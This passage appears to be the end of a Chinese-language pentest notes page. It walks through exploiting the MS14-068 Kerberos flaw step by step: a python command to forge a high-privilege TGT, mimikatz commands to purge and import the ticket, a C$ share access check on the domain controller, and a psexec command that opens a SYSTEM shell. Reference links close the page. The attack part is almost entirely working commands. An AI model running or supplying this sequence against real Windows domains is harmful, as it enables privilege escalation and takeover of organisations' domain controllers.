     * 生成票据  
        python ms14-068.py -u 域成员名@域名 -p 域成员密码 -s 域成员sid -d 域控制器地址  
        目录下会生成名为 “TGT_域成员名@域名.ccache” 的高权限票据

    * 清除内存中的票证  
        mimikataz# kerberos::purge

    * 导入票据  
        mimikataz# kerberos::ptc "TGT_域成员名@域名.ccache"

    * 利用  
        klist 查询票据是否导入成功  
        执行 `dir \\域控计算机全名\c$ 看能否访问`

    * 弹 shell  
        `psexec64.exe /accepteula /s \\域控ip cmd.exe`


#### Reference(侵删)：
* [https://www.bilibili.com/read/cv15702405/](https://www.bilibili.com/read/cv15702405/?_blank)
* [https://www.bbsmax.com/A/gAJGXX935Z/](https://www.bbsmax.com/A/gAJGXX935Z/?_blank)
* [http://t.zoukankan.com/bmjoker-p-10355979.html](http://t.zoukankan.com/bmjoker-p-10355979.html?_blank)
* [https://blog.csdn.net/m0_71692682/article/details/125217553](https://blog.csdn.net/m0_71692682/article/details/125217553?_blank)
* [https://blog.csdn.net/st3pby/article/details/123036917](https://blog.csdn.net/st3pby/article/details/123036917?_blank)
* [https://blog.csdn.net/nicai321/article/details/122614894](https://blog.csdn.net/nicai321/article/details/122614894?_blank)
